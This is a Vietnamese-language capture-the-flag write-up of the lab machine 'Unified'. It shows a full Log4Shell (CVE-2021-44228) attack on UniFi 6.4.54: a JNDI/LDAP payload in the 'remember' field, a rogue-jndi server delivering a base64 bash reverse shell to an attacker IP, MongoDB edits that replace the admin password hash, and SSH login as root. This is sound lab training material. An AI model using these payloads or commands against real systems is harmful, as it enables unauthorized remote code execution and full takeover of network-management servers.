

# Unified

## Introduction

Bài viết này khám phá những tác động của việc khai thác Log4J trong một hệ thống giám sát thiết bị mạng rất nổi tiếng có tên là "UniFi". Box này sẽ chỉ cách thiết lập và cài đặt các gói và công cụ cần thiết để khai thác UniFi bằng cách lợi dụng lỗ hổng Log4J và thao túng tiêu đề POST có tên là `remember`, cung cấp một reverse shell trên machine. Sẽ thay đổi mật khẩu của quản trị viên bằng cách thay đổi hàm băm được lưu trong phiên bản MongoDB đang chạy trên hệ thống, điều này sẽ cho phép truy cập vào bảng điều khiển quản trị và dẫn đến việc tiết lộ mật khẩu SSH của quản trị viên.

## Enumeration

Bước đầu tiên là quét địa chỉ IP đích bằng Nmap để kiểm tra những cổng nào đang mở. Thực hiện việc này với sự trợ giúp của chương trình có tên là Nmap. Sau đây là giải thích nhanh về từng cờ và chức năng của chúng.

```
-sC: Thực hiện quét tập lệnh bằng bộ tập lệnh mặc định. Tương đương với --script=default.
-sV: Phát hiện phiên bản
-v: Tăng mức độ chi tiết, khiến Nmap in thêm thông tin về quá trình quét đang diễn ra.
```


Quá trình quét cho thấy cổng `8080` mở chạy proxy HTTP. Proxy dường như chuyển hướng yêu cầu đến cổng `8443`, có vẻ như đang chạy máy chủ web SSL. Lưu ý rằng tiêu đề HTTP của trang trên cổng 8443 là "`UniFi Network`".


Khi truy cập trang bằng trình duyệt, thấy trang đăng nhập cổng thông tin web UniFi và số phiên bản là 6.4.54. Nếu tình cờ gặp phải số phiên bản, hãy luôn tìm hiểu phiên bản cụ thể đó trên Google. Tìm kiếm nhanh trên Google bằng từ khóa UniFy 6.4.54 exploit sẽ hiển thị một bài viết thảo luận về việc khai thác chuyên sâu lỗ hổng CVE-2021-44228 trong ứng dụng này.

Nếu muốn tìm hiểu thêm về lỗ hổng Log4J, có một bài đăng trên Blog tuyệt vời về lỗ hổng này (https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation)


Lỗ hổng Log4J này có thể bị khai thác bằng cách chèn lệnh hệ điều hành (OS Command Injection), đây là lỗ hổng bảo mật web cho phép kẻ tấn công thực thi các lệnh hệ điều hành tùy ý trên máy chủ đang chạy ứng dụng và thường xâm phạm hoàn toàn ứng dụng và tất cả dữ liệu của ứng dụng.

Để xác định xem đây có phải là trường hợp hay không, sử dụng `FoxyProxy` sau khi thực hiện yêu cầu POST đến endpoint `/api/login`, để chuyển yêu cầu đến BurpSuite, nơi sẽ chặn yêu cầu đó như một trung gian. Sau đó, yêu cầu có thể được chỉnh sửa để chèn lệnh. 

Đầu tiên, thử đăng nhập vào trang bằng thông tin xác thực `test:test` vì không cố gắng xác thực hoặc giành quyền truy cập. Yêu cầu đăng nhập sẽ được BurpSuite nắm bắt và có thể sửa đổi nó.

Trước khi sửa đổi yêu cầu, hãy gửi gói HTTPS này đến mô-đun `Repeater` của BurpSuite bằng cách nhấn `CTRL+R`.

## Exploitation

Phần Khai thác của bài viết (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) đã đề cập trước đó rằng phải nhập payload của mình vào tham số `remember`. Vì dữ liệu POST được gửi dưới dạng object JSON và vì payload chứa dấu ngoặc `{}`, để ngăn không cho nó bị phân tích cú pháp thành object JSON khác, đặt nó trong dấu ngoặc `"` để nó được phân tích cú pháp thành chuỗi.


Nhập payload vào trường `remember` như hiển thị ở trên để có thể xác định điểm inject nếu có. Nếu yêu cầu khiến máy chủ kết nối lại, thì đã xác minh rằng ứng dụng dễ bị tấn công.

```
${jndi:ldap://{Tun0 IP Address}/whatever}
```

JNDI là từ viết tắt của `Java Naming and Directory Interface API`. Bằng cách gọi đến API này, các ứng dụng sẽ định vị tài nguyên và các đối tượng chương trình khác. Tài nguyên là đối tượng chương trình cung cấp kết nối đến các hệ thống, chẳng hạn như máy chủ cơ sở dữ liệu và hệ thống nhắn tin.

LDAP là từ viết tắt của `Lightweight Directory Access Protocol`, đây là giao thức ứng dụng tiêu chuẩn công nghiệp, trung lập với nhà cung cấp, mở để truy cập và duy trì các dịch vụ thông tin thư mục phân tán qua Internet hoặc Mạng. Cổng mặc định mà LDAP chạy trên đó là `port 389`.


Sau khi nhấn "send", ngăn "Response" sẽ hiển thị phản hồi từ yêu cầu. Đầu ra cho thấy một thông báo lỗi nêu rằng tải trọng không hợp lệ, nhưng mặc dù có thông báo lỗi, tải trọng thực sự đang được thực thi.

Hãy tiến hành khởi động tcpdump trên cổng 389, cổng này sẽ giám sát lưu lượng mạng cho các kết nối LDAP.

```
tcpdump là chương trình máy tính phân tích gói dữ liệu mạng chạy dưới giao diện dòng lệnh. Nó cho phép người dùng hiển thị TCP/IP và các gói khác đang được truyền hoặc nhận qua mạng mà máy tính được kết nối.
```

Mở một terminal khác và nhập:

```
sudo tcpdump -i tun0 port 389
```

Cú pháp trên có thể được chia nhỏ như sau.

```
sudo:       Chạy lệnh này qua root còn được gọi là admin.
tcpdump:    Là chương trình hoặc phần mềm là Wireshark ngoại trừ, đây là phiên bản dòng lệnh.
-i:         Chọn giao diện. (Ví dụ eth0, wlan, tun0) cổng 389: Chọn cổng đang lắng nghe.
```

Sau khi tcpdump được khởi động, hãy nhấp vào nút Send.


Đầu ra tcpdump cho thấy một kết nối đang được nhận trên máy. Điều này chứng tỏ rằng ứng dụng thực sự dễ bị tấn công vì nó đang cố gắng kết nối lại trên cổng LDAP 389.


Phải cài đặt `Open-JDK` và `Maven` trên hệ thống để xây dựng một payload có thể gửi đến máy chủ và sẽ cung cấp quyền Thực thi mã từ xa trên hệ thống dễ bị tấn công.


Open-JDK là bộ công cụ phát triển Java, được sử dụng để xây dựng các ứng dụng Java. Mặt khác, Maven là Môi trường phát triển tích hợp (IDE) có thể được sử dụng để tạo một dự án có cấu trúc và biên dịch các dự án thành các tệp `jar`.

Các ứng dụng này cũng sẽ giúp chạy ứng dụng Java `rogue-jndi`, ứng dụng này khởi động máy chủ LDAP cục bộ và cho phép nhận lại các kết nối từ máy chủ dễ bị tấn công và thực thi mã độc hại.

Sau khi cài đặt Open-JDK, có thể tiến hành cài đặt Maven. Nhưng trước tiên, hãy chuyển sang người dùng root.

```
sudo apt-get install maven
```

Sau khi cài đặt hoàn tất, có thể kiểm tra phiên bản Maven như sau.


Sau khi đã cài đặt các gói cần thiết, bây giờ cần tải xuống và xây dựng ứng dụng Java `Rogue-JNDI`.

Hãy sao chép kho lưu trữ tương ứng và xây dựng gói bằng Maven.

```
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```


Thao tác này sẽ tạo một file `.jar` trong thư mục `rogue-jndi/target/` có tên là `RogueJndi-1.1.jar`. Bây giờ có thể xây dựng payload để truyền vào ứng dụng Java `RogueJndi-1-1.jar`.

Để sử dụng máy chủ Rogue-JNDI, phải build và truyền cho nó một payload, payload này sẽ chịu trách nhiệm cung cấp một shell trên hệ thống bị ảnh hưởng. Mã hóa Base64 payload để ngăn chặn mọi sự cố mã hóa.

```
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64
```


Lưu ý: Đối với writeup này, sử dụng cổng 4444 để nhận shell.

Sau khi payload đã được tạo, hãy khởi động ứng dụng Rogue-JNDI trong khi truyền payload như một phần của tùy chọn `--command` và địa chỉ IP `tun0` vào tùy chọn `--hostname`.

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```

Ví dụ:

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.33"
```


Bây giờ máy chủ đang lắng nghe cục bộ trên cổng `389`, hãy mở một terminal khác và khởi động trình lắng nghe Netcat để ghi lại reverse shell.

```
nc -lvp 4444
```

Quay trở lại yêu cầu POST đã intercept, hãy thay đổi payload thành `${jndi:ldap://{Tun0 IP}:1389/o=tomcat}` và click vào `Send`.


Sau khi gửi yêu cầu, kết nối đến máy chủ giả mạo sẽ được nhận và thông báo sau sẽ hiển thị.

```
Sending LDAP ResourceRef result for o=tomcat with javax.el.ELProcessor payload
```

Khi nhận được đầu ra từ máy chủ Rogue, một shell sẽ xuất hiện trên trình lắng nghe Netcat và có thể nâng cấp shell terminal bằng lệnh sau.

```
script /dev/null -c bash
```


Lệnh trên sẽ biến shell thành một interactive shell cho phép tương tác với hệ thống hiệu quả hơn.

Từ đây có thể điều hướng đến `/home/Michael/` và đọc user flag.


## Privilege Escalation

Có thể truy cập vào bảng quản trị của ứng dụng `UniFi` và có thể trích xuất các secret SSH được sử dụng giữa các thiết bị. Trước tiên, kiểm tra xem MongoDB có đang chạy trên hệ thống đích hay không, điều này có thể giúp trích xuất thông tin xác thực để đăng nhập vào bảng quản trị.

```
ps aux | grep mongo
```


Thấy `MongoDB` đang chạy trên hệ thống đích ở cổng `27117`.

```
MongoDB là một chương trình cơ sở dữ liệu document-oriented đa nền tảng sourcce-available. Được phân loại là chương trình cơ sở dữ liệu NoSQL, MongoDB sử dụng các document giống JSON với các schema tùy chọn.
```

Tương tác với dịch vụ MongoDB bằng cách sử dụng tiện ích command line `mongo` và cố gắng trích xuất mật khẩu quản trị viên. Tìm kiếm nhanh trên Google bằng từ khóa `UniFi Default Database` cho thấy tên cơ sở dữ liệu mặc định cho ứng dụng UniFi là `ace`.

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```



Nếu không chắc chắn về chức năng của từng flag, sau đây là thông tin chi tiết.


Output cho thấy một người dùng có tên là Administrator. Hash password của họ nằm trong biến `x_shadow` nhưng trong trường hợp này, nó không thể bị bẻ khóa bằng bất kỳ tiện ích bẻ khóa mật khẩu nào. Thay vào đó, có thể thay đổi hash password `x_shadow` bằng băm khác để thay thế mật khẩu của quản trị viên và xác thực với bảng điều khiển quản trị. Để thực hiện việc này, có thể sử dụng tiện ích command line `mkpasswd`.

```
mkpasswd -m sha-512 Password1234

$6$sbnjIZBtmRds.L/E$fEKZhosqeHykiVWT1IBGju43WdVdDauv5RsvIPifi32CC2TTNU8kHOd2ToaW8fIX7XXM8P5Z8j4NB1gJGTONl1
```

`$6$` là mã định danh cho thuật toán băm đang được sử dụng, trong trường hợp này là SHA-512, do đó tạo một hàm băm cùng loại.

```
SHA-512, hay Secure Hash Algorithm 512, là một thuật toán băm được sử dụng để chuyển đổi văn bản có độ dài bất kỳ thành một chuỗi có kích thước cố định. Mỗi đầu ra tạo ra một độ dài SHA-512 là 512 bit (64 byte). Thuật toán này thường được sử dụng để băm địa chỉ email, băm mật khẩu...
```

Sau khi tạo xong hàm băm SHA-512, output sẽ trông tương tự như output ở trên, tuy nhiên do sử dụng salt nên hàm băm sẽ thay đổi mỗi lần tạo.

```
Salt được thêm vào quá trình băm để tăng tính duy nhất, tăng độ phức tạp mà không làm tăng yêu cầu của người dùng và giảm thiểu các cuộc tấn công mật khẩu như bảng băm.
```

Tiến hành thay thế mã băm hiện có bằng mã băm đã tạo.

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```


Xác minh rằng mật khẩu đã được cập nhật trong cơ sở dữ liệu Mongo bằng cách chạy cùng lệnh như trên. Có vẻ như băm SHA-512 đã được cập nhật.

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Bây giờ truy cập trang web và đăng nhập với tư cách là `administrator`. Điều rất quan trọng cần lưu ý là tên người dùng phải phân biệt chữ hoa chữ thường.


Quá trình xác thực đã thành công và bây giờ có quyền truy cập quản trị vào ứng dụng UniFi.


UniFi cung cấp cài đặt SSH Authentication, đây là chức năng cho phép quản lý các Access Point khác qua SSH từ console hoặc terminal.

Điều hướng đến `settings -> site` và cuộn xuống để tìm cài đặt SSH Authentication. Xác thực SSH bằng mật khẩu root đã được bật.


Trang này hiển thị mật khẩu root ở dạng plaintext là `NotACrackablePassword4U2022`. Xác thực với hệ thống với tư cách là root qua SSH.

```
ssh root@10.129.96.149
```


Kết nối thành công và root flag có thể được tìm thấy trong `/root`.

Đã hoàn thành box Unified.